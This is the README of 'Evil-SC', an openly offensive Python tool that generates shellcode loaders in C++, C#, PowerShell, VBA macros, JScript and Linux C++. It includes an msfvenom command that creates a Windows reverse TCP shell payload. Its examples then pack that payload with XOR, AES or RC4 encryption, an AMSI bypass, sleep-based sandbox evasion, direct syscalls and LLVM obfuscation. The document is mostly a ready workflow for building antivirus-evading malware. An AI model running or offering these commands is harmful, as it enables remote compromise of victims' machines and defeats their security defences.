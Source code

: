 # Evil-SC - Template-based Shellcode Loader

## Introduction
Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for injecting shellcode into a target process, using different methods and encoders.

> WORK IN PROGRESS !

## Todo
- Functions name randomization ?
- Implement nullgate Indirect Syscalls
- Make new Sandbox evasion templates
- Make new methods templates

## Usage
1. Clone the repository:
```bash
git clone https://github.com/v4resk/evil-sc.git
cd evil-sc
```

2. Install dependencies
```
sudo apt install mono-complete, mingw-w64, powershell
```

3. Run the script
```
$ python evil-sc.py windows -h

    ███████╗██╗   ██╗██╗██╗      ███████╗ ██████╗
    ██╔════╝██║   ██║██║██║      ██╔════╝██╔════╝
    █████╗  ██║   ██║██║██║█████╗███████╗██║
    ██╔══╝  ╚██╗ ██╔╝██║██║╚════╝╚════██║██║
    ███████╗ ╚████╔╝ ██║███████╗ ███████║╚██████╗
    ╚══════╝  ╚═══╝  ╚═╝╚══════╝ ╚══════╝ ╚═════╝
                                                 @v4resk

usage: evil-sc.py [-h] {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils} ...

Template-based Shellcode Loader

positional arguments:
  {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils}
                        Module to be used
    windows_cpp         Native Windows Shellcode Loader (C++)
    windows_cs          Dotnet Windows Shellcode Loader (C#)
    windows_pwsh        Powershell Windows Shellcode Loader
    windows_vba         Microsoft Office Macros Shellcode Loader (VBA)
    windows_js          JScript Windows Shellcode Loader
    linux               Native Linux Shellcode Loader (C++)
    utils               Utility module for shellcodes

options:
  -h, --help            show this help message and exit

```

## Examples

1. Generate a shellcode
```bash
# Generate a shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o /tmp/msfout.bin
```

2. Pack the shellcode (see examples below) ! 
```bash
# Use Venoma C# template, XOR and AES encryption, AMSI Bypass
python evil-sc.py windows_cs -m Venoma msf.raw -em amsi -e aes -e xor

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, GetSyscallStub for direct syscalls, obfuscation using LLVMO
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep --llvmo

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, SysWhispers3 for direct syscalls
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep -sc SysWhispers3

# Use PowerIject Powershell template, Double XOR encryption, AMSI Bypass
python evil-sc.py windows_pwsh -m PowerInject msf.raw -e xor -e xor -em amsi

# Use simple exec C++ template for linux, with xor encryption, obfuscation using LLVMO
python evil-sc.py linux -m SimpleExec msf.raw -e xor -l
```


## Resources

[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()